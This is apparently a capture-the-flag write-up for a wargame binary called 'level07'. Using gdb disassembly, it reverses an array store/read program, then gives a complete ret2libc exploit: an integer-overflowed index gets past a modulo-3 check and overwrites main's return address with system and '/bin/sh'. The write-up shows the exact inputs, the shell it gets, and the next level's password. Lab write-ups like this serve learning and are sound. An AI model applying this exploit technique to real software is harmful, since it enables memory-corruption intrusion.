 ```gdb
0x08048630  store_number
0x080486d7  read_number
0x08048723  main
```

it loads the env as argv
```
<main+22>:	mov    0x10(%ebp),%eax

(gdb) p **(char ***)($ebp+0x10)
$19 = 0xffffd8be "SHELL=/bin/bash"


(gdb) p **(char ***)($ebp+0xc)
$18 = 0xffffd8a2 "/home/users/level07/level07"

(gdb) x/10s 0xffffd8a2
0xffffd8a2:	 "/home/users/level07/level07"
0xffffd8be:	 "SHELL=/bin/bash"
0xffffd8ce:	 "TERM=xterm-256color"
0xffffd8e2:	 "SSH_CLIENT=10.12.10.15 49862 4242"
```

```
 0x08048878 <+341>:	lea    0x1b8(%esp),%eax
 0x08048882 <+351>:	call   0x80484a0 <fgets@plt>
   
 <main+413>:	mov    $0x8048d5b,%eax  "store"
 <main+427>:	repz cmpsb
 
 The test instruction is commonly used to check whether a value is zero or not
 0x080488df <+444>:	test   %eax,%eax
 0x080488e1 <+446>:	jne    0x80488f8 <main+469>         jump to compar if it is 0 <+478>:	mov    $0x8048d61,%eax "read"
 0x080488e3 <+448>:	lea    0x24(%esp),%eax
 0x080488ea <+455>:	call   0x8048630 <store_number>
 
 <main+520>:	call   0x80486d7 <read_number>
   
```
 instruction `rep stos %eax,%es:(%edi)` is performing a "repeat string operation"
 
 that stores the value of the eax , ecx times at the memory location pointed to by edi.
 
 commonly used to initialize memory locations to a specific value

```
at <main+110>:	lea    0x24(%esp),%ebx
we insialize the buffer[0x64/100] to 0

this buffer is passed to store()

<main+448>:	lea    0x24(%esp),%eax
<main+455>:	call   0x8048630 <store_number>   store_number(&buffer)



<main+513>:	lea    0x24(%esp),%eax
<main+520>:	call   0x80486d7 <read_number>    read_number(&buffer)
```

debbugging
check for more [Ressources/magic_numbers.md](Ressources/magic_numbers.md)

<pre><code>

break at <main+351>:	call   0x80484a0 <fgets@plt>

Input command: store

store_number(array[100])
{
  
  Initialize two local variables with zeros.
  <+6>:     movl   $0x0,-0x10(%ebp)
  <+13>:    movl   $0x0,-0xc(%ebp)
  
  <store_number+33>:	call   0x80485e7 <get_unum>
  <store_number+38>:	mov    %eax,-0x10(%ebp)
  
  get_unum()
  {
        <get_unum+26>:	mov    $0x8048ad0,%eax    "%u"
        <get_unum+31>:	lea    -0xc(%ebp),%edx
        <get_unum+41>:	call   0x8048500 <__isoc99_scanf@plt>      scanf("%u")
  }
  
  number at -0x10(%ebp)
  index  at -0xc(%ebp)
  
  
  Perform a division-by-3 check using multiplication by the magic number 0xaaaaaaab.
  If the remainder is non-zero, skip the following block.
  
  0xaaaaaaab,%edx  (a repeating pattern of 10101010101010101010101010101011 in binary / 2863311531)
  Convert each hex digit to 4 binary digits
  check for more  [Ressources/magic_numbers.md]
  
  <store_number+65>:	mov    $0xaaaaaaab,%edx 
  <store_number+72>:	mul    %edx   ==> eax = eax * edx
  <store_number+74>:	shr    %edx  right-shifting the value of edx by one     edx = edx >> 1

If the division-by-3 check passed, check if the most significant byte of the first local variable is equal to 0xb7. If not, skip the following block.

0x0804868a <+90>:    mov    -0x10(%ebp),%eax
0x0804868d <+93>:    shr    $0x18,%eax
0x08048690 <+96>:    cmp    $0xb7,%eax
0x08048695 <+101>:   jne    0x80486c2 <store_number+146>


If either of the checks failed, store the first local variable into an array pointed to by the first function argument, withan index specified by the second local variable. Set the return value to 0.

0x080486c2 <+146>:   mov    -0xc(%ebp),%eax        index
0x080486c5 <+149>:   shl    $0x2,%eax              index * 4
0x080486c8 <+152>:   add    0x8(%ebp),%eax         &array + index
0x080486cb <+155>:   mov    -0x10(%ebp),%edx       value
0x080486ce <+158>:   mov    %edx,(%eax)            *(array + index) = value
0x080486d0 <+160>:   mov    $0x0,%eax


}
</code></pre>

  
```
if (check1 == 0 || check2 == 0) 
{
    int* array_ptr = *(int**)(ebp + 0x8);
    int value = *(int *)(ebp - 0x10);
    int index = *(int *)(ebp - 0xc);
    *(array_ptr + (index * 4)) = value;  ==> array[index] = value
    
    return 0;
}
```

```

(gdb) x/d $ebp-0x10     value
0xffffd508:     123

(gdb) x/d $ebp-0xc      index
0xffffd50c:     7 
 
(gdb) x/x $ebp+8        array_ptr
0xffffd520:    ===> 0xffffd544


 mov    -0xc(%ebp),%eax    eax = 7
 shl    $0x2,%eax          eax = 7 * 4 = 28
 add    0x8(%ebp),%eax     eax = 0xffffd544 + 28 = 0xffffd560
 mov    -0x10(%ebp),%edx   edx = 123
 mov    %edx,(%eax)        x/d 0xffffd560 = p  *(int *)0xffffd560 = 123
```

so We will overwrite the main return address using the store function.


b *main+455  // store
b *main+520  // read

where the array_ptr is located when value retrieval
```
<read_number+40>:	add    0x8(%ebp),%eax
(gdb) x/x $ebp+8
0xffffd500:	0xffffd524 <==

0xffffd524 + 7*4 = 0xffffd540
p *(int *)0xffffd540 = 123
```
find main eip
```
info frame
eip at 0xffffd6ec

(gdb) p/d 0xffffd6ec - 0xffffd524 = 456 / 4 = 114

114 / 3 = 38
```
so this index cannot be inserted directly to the program


we will go for Integer overflow attack since the index is stored by scanf as %u
```
114 in binary
printf %032d 1110010
00000000000000000000000001110010
since the index is `shl by $0x2` will get rid of the 2 MSB
10000000000000000000000001110010 = 2147483762
```
```
(gdb) find 0xf7e2c000 , 0xf7fcc000 , "/bin/sh"
0xf7f897ec

      114               115                116
  2147483762            115                116  
[   &system  ] + [ &ret_of_system ] + [  &bin_sh   ]
[ 0xf7e6aed0 ] + [      aaaa      ] + [ 0xf7f897ec ]
[ 4159090384 ] + [   1633771873   ] + [ 4160264172 ]


Input command: store
 Number: 4159090384
 Index: 2147483762
 
Input command: store
 Number: 1633771873
 Index: 115
 
Input command: store
 Number: 4160264172
 Index: 116

Input command: quit

$ pwd
/home/users/level07
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

we could skip 115 the return of system, garbage value
```
Input command: store
 Number: 4159090384
 Index: 2147483762

Input command: store
 Number: 4160264172
 Index: 116

Input command: quit
$ pwd
/home/users/level07
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

